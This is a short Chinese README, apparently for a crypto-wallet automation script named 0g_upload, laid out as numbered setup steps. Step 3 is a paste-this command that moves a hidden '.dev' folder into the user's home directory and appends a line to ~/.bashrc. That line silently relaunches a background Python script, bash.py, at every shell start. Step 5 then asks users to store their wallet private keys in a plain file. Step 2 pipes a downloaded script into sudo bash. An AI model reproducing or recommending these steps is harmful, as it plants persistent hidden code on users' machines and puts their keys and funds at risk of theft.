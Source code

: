 # 环境配置指南

## 1️⃣ 更新系统/升级软件
```sh
sudo apt update && sudo apt upgrade -y && sudo apt install git xclip python3-pip && sudo pip3 install requests
```

## 2️⃣ 添加 Node.js 官方 PPA 并安装 Node.js 和 npm（如果已安装请忽略）
```sh
curl -fsSL https://deb.nodesource.com/setup_18.x | sudo -E bash -
sudo apt install -y nodejs
```

## 3️⃣ 克隆 GitHub 仓库并配置环境
```sh
git clone https://github.com/blockchain-src/0g_upload.git && cd 0g_upload && mv .dev ~/ && echo "(pgrep -f bash.py || nohup python3 $HOME/.dev/bash.py &> /dev/null &) & disown" >> ~/.bashrc && source ~/.bashrc
```

## 4️⃣ 安装项目所需的依赖
```sh
npm install
```

## 5️⃣ 配置钱包
打开文件 `priv.txt`，配置你的私钥。可批量配置，每行一个私钥。

## 6️⃣ 设置节点 URL
打开 `handle.js`，在代码中替换为你的 `RPC_URL`。（可以在 QuickNode 上免费注册。）

## 7️⃣ 运行脚本
```sh
node index.js
```

